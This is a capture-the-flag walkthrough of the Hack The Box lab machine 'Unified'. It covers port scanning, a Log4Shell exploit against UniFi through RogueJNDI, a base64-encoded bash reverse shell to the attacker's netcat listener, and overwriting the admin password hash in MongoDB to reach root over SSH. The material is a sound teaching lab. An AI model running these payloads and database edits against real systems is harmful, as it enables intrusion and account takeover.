









<p align="center"></img></p>
<p align="center">Machine creator: <a href="https://www.hackthebox.com/">Hack The Box</a></p>
<p align="center">Platform: <a href="https://www.hackthebox.com/">Hack The Box</a></p>

<br>

Unified is part of the tier's 2 Starting Point machines of Hack The Box.

- [Reconnaissance](#reconnaissance)
    + [Nmap Scan](#nmap-scan)
    + [Login portal](#login-portal)
    + [Log4Shell vulnerable](#log4shell-vulnerable)
- [Foothold](#foothold)
    + [Testing vulnerability](#testing-vulnerability)
    + [Exploiting the vulnerability to get reverse shell](#exploiting-the-vulnerability-to-get-reverse-shell)
- [Privilege Escalation](#privilege-escalation)
    + [Enumerating the system](#enumerating-the-system)
    + [Modifying UniFi user credentials](#modifying-unifi-user-credentials)
    + [Accessing the website's private area](#accessing-the-website-s-private-area)
    + [SSH into the machine with the root user](#ssh-into-the-machine-with-the-root-user)
- [References](#references)

<br>

---

# Reconnaissance

### Nmap Scan

To begin the initial stage we are going to be using Nmap, which is a command line tool that is used to discover hosts and services on a network. It does this by sending packets, which are small units of data, and analysing the responses. Based off the responses it can tell which ports are open and what services are being run on said ports.

`-p-` flag will scan all ports, `--open` flag will report only ports that are opened, `--min-rate 5000` flag will make our scan really fast, useful for closed environments like this, `-n` flag will disable DNS resolutions, `-Pn` flag will disable ARP host discovery, `-vvv` flag will show occurrences while scan is running and `-oG` flag will export the result to said file (useful for grep, see <a href="https://github.com/oscar-rk/scripts/blob/main/Infosec/Recon/extractPorts.sh">extractPorts script</a>).

```shell
❯ nmap -p- --open -sS --min-rate 5000 -Pn -n -vvv -oG allPorts 10.129.198.222
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-03 19:19 CEST
Initiating SYN Stealth Scan at 19:19
Scanning 10.129.198.222 [65535 ports]
Discovered open port 22/tcp on 10.129.198.222
Discovered open port 8080/tcp on 10.129.198.222
Discovered open port 8443/tcp on 10.129.198.222
Discovered open port 8880/tcp on 10.129.198.222
Discovered open port 6789/tcp on 10.129.198.222
Discovered open port 8843/tcp on 10.129.198.222
Completed SYN Stealth Scan at 19:19, 11.72s elapsed (65535 total ports)
Nmap scan report for 10.129.198.222
Host is up, received user-set (0.041s latency).
Scanned at 2022-09-03 19:19:05 CEST for 11s
Not shown: 65465 closed tcp ports (reset), 64 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       REASON
22/tcp   open  ssh           syn-ack ttl 63
6789/tcp open  ibm-db2-admin syn-ack ttl 63
8080/tcp open  http-proxy    syn-ack ttl 63
8443/tcp open  https-alt     syn-ack ttl 63
8843/tcp open  unknown       syn-ack ttl 63
8880/tcp open  cddbp-alt     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 11.82 seconds
           Raw packets sent: 66204 (2.913MB) | Rcvd: 65471 (2.619MB)
```

Once we know which ports are open, we are going to run a service/version scan with default scripts.

`-sVC` will probe open ports to determine service/version information and run default scripts, `-p` flag will indicate what ports to scan and `-oN` flag will export the result to said file (default nmap format).

```shell
❯ nmap -sCV -p22,6789,8080,8443,8843,8880 10.129.198.222
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-03 19:20 CEST
Nmap scan report for 10.129.198.222
Host is up (0.040s latency).

PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Sat, 03 Sep 2022 17:20:40 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404 
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 
|     Found</h1></body></html>
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 302 
|     Location: http://localhost:8080/manage
|     Content-Length: 0
|     Date: Sat, 03 Sep 2022 17:20:40 GMT
|     Connection: close
|   RTSPRequest, Socks5: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sat, 03 Sep 2022 17:20:40 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to https://10.129.198.222:8443/manage
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
8843/tcp open  ssl/unknown
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sat, 03 Sep 2022 17:20:58 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
8880/tcp open  cddbp-alt?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 431
|     Date: Sat, 03 Sep 2022 17:20:40 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 404 
|     Found</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 404 
|     Found</h1></body></html>
|   GetRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sat, 03 Sep 2022 17:20:40 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|     Request</h1></body></html>
|   HTTPOptions: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Sat, 03 Sep 2022 17:20:46 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
```

### Login portal

There is a login portal in 10.129.198.222:8080 (redirects to port 8443 HTTPS) but we don't have any credentials yet.

<p align="center"></img></p>

### Log4Shell vulnerable

Looking at the UniFi version ``6.4.54` we can search for exploits on the Internet.
We will find that this service is affected by Log4Shell vulnerability.

> https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi

# Foothold

### Testing vulnerability

Following the instructions on how to exploit it:

To test if it is vulnerable for further exploitation, we can use `tcpdump` and input the malicious payload into the `Remember me` form manipulating our POST request using `Burpsuite`.

```shell
❯ tcpdump -i tun0 port 389
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

We will launch `Burpsuite` and set our browser proxy settings. Once done, we will send a normal request using the form above and intercept it.

<p align="center"></img></p>

<p align="center"></img></p>

We will move our request to the `Repeater` section of `Burpsuite` and insert the payload into the vulnerable field.

<p align="center"></img></p>

If the site is vulnerable, we should receive a connection to our port port 389.

```shell
19:34:31.348716 IP 10.129.198.222.36628 > 10.10.14.67.ldap: Flags [S], seq 2042313448, win 64240, options [mss 1337,sackOK,TS val 754533013 ecr 0,nop,wscale 7], length 0
19:34:31.348746 IP 10.10.14.67.ldap > 10.129.198.222.36628: Flags [R.], seq 0, ack 2042313449, win 0, length 0
```

### Exploiting the vulnerability to get reverse shell

We will clone the RogueJNDI repository and build it as indicated in the instructions.

```shell
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

Now we will build our malicious payload in order to get a reverse shell connection.
It has to be encoded in `base64`.

```shel
❯ echo 'bash -c bash -i >&/dev/tcp/10.10.14.67/4444 0>&1' | base64
YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjcvNDQ0NCAwPiYxCg==
```

Now we will setup our RogueJNDI, serving our `base64` encoded string.

```shell
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjcvNDQ0NCAwPiYxCg}|{base64,-d}|{bash,-i}" --hostname "10.10.14.67"
```

<p align="center"></img></p>

We start a `nc` listener.

```shell
❯ nc -nlvp 4444
listening on [any] 4444 ...
```

And send the malicious payload indicated by the instructions.

<p align="center"></img></p>

And we will obtain a reverse shell connection from the machine.

```
❯ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.67] from (UNKNOWN) [10.129.198.222] 59856
hostname -I
10.129.198.222 172.17.0.1 dead:beef::250:56ff:fe96:fd4e 
whoami
unifi
```

We are now `unifi` and can `cat` the user flag inside `/usr/lib/unifi`

# Privilege Escalation

### Enumerating the system

Listing the active processes in the system we find that there is a running instance of MongoDB and we can see the credentials and database used.

```shell
unifi@unified:/usr/lib/unifi$ ps -faux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
unifi          1  0.0  0.0   1080     4 ?        Ss   18:17   0:00 /sbin/docker-init -- /usr/local/bin/docker-entrypoint.sh unifi
unifi          7  0.0  0.1  18512  3176 ?        S    18:17   0:00 bash /usr/local/bin/docker-entrypoint.sh unifi
unifi         17  3.8 28.4 3707116 579108 ?      Sl   18:17   0:57  \_ java -Dunifi.datadir=/unifi/data -Dunifi.logdir=/unifi/log -Dunifi.rundir=/var/run/unifi -Xmx1024M -Djava.awt.headless=true -Dfile.encoding=UTF-8 -jar /usr/lib/unifi/lib/a
unifi         67  0.4  4.1 1103744 85108 ?       Sl   18:17   0:07      \_ bin/mongod --dbpath /usr/lib/unifi/data/db --port 27117 --unixSocketPrefix /usr/lib/unifi/run --logRotate reopen --logappend --logpath /usr/lib/unifi/logs/mongod.log -
unifi        817  0.0  0.1  18380  2988 ?        S    18:41   0:00      \_ bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTQuNjcvNDQ0NCAwPiYxCg}|{base64,-d}|{bash,-i}
unifi        821  0.0  0.1  18512  3320 ?        S    18:41   0:00          \_ bash -i
unifi        824  0.0  0.1  18380  3024 ?        S    18:41   0:00              \_ bash
unifi        852  0.0  0.1  19312  2272 ?        S    18:41   0:00                  \_ script /dev/null -c bash
unifi        853  0.0  0.0   4632   780 pts/0    Ss   18:41   0:00                      \_ sh -c bash
unifi        854  0.0  0.1  18512  3408 pts/0    S    18:41   0:00                          \_ bash
unifi        886  0.0  0.1  34408  2908 pts/0    R+   18:43   0:00                              \_ ps -faux
unifi@unified:/usr/lib/unifi$ 
```

Using MongoDB connection commands, we can list the active users for the default `UniFi` database which is `ace` (Google UniFi default database).

### Modifying UniFi user credentials

```shell
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval "db.admin.find().forEach(printjson)" | head
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
	"_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
	"name" : "administrator",
	"email" : "administrator@unified.htb",
	"x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.",
	"time_created" : NumberLong(1640900495),
	"last_site_name" : "default",
unifi@unified:/usr/lib/unifi$
```

We can modify the password contained in `"x_secret"` but first we have to encode it in `sha512`.

```shell
❯ mkpasswd -m sha-512 rk1234
$6$Bj0FJdy0deBxHa9u$srnxVOlVR0VdkwgplyTKMLhwuF1IvdAb81gIFZnDsZufvomKiQJfi2HWQqTgsI8rtCd97Au7CxNolhQ5uC4vs.
```

And now we modify it.

```shell
unifi@unified:/usr/lib/unifi$ mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$Bj0FJdy0deBxHa9u$srnxVOlVR0VdkwgplyTKMLhwuF1IvdAb81gIFZnDsZufvomKiQJfi2HWQqTgsI8rtCd97Au7CxNolhQ5uC4vs."}})'
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
unifi@unified:/usr/lib/unifi$
```

### Accessing the website's private area

Now, using our credentials we should be able to access the website's private area in order for further enumeration.

<p align="center"></img></p>

Exploring the dashboard page, we will find that the `root` user credentials are visible.

<p align="center"></img></p>

So now we can connect using `ssh` with the `root` user.

### SSH into the machine with the root user

```shell
❯ ssh 10.129.198.222 -l root
The authenticity of host '10.129.198.222 (10.129.198.222)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:3: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.198.222' (ED25519) to the list of known hosts.
root@10.129.198.222's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

root@unified:~# hostname -I
10.129.198.222 172.17.0.1 dead:beef::250:56ff:fe96:fd4e 
root@unified:~# whoami
root
```

We are now `root` and successfully finished the challenge!

We can `cat` the root flag inside `/root`.

---

# References

|__`Burpsuite Repeater`__|__https://portswigger.net/burp/documentation/desktop/tools/repeater/getting-started__|
|:-|:-|
|__`UniFi Log4Shell`__|__https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi__|


<br>
<br>

___─ Written by <a href="https://github.com/oscar-rk">oscar-rk</a> ─___